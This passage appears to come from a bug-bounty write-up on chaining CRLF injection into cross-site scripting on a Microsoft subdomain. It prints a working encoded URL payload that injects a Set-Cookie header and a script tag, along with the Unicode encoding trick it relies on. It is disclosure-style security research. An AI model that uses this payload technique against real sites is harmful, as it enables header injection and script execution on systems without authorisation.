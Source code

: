 So my payload for CRLF to XSS was:-

Also, I performed URL encoding for avoiding errors and my final payload was:-

```html
ENCODING
"<" --> 嘼 --> %E5%98%BC
">" --> 嘾 --> %E5%98%BE

https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
```

After inserting that payload, I got the most beautiful results

I am sharing some beautiful screenshots

<figure><img src="/assets/postImg/pid1/img10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="/assets/postImg/pid1/img11.png" alt=""><figcaption></figcaption></figure>
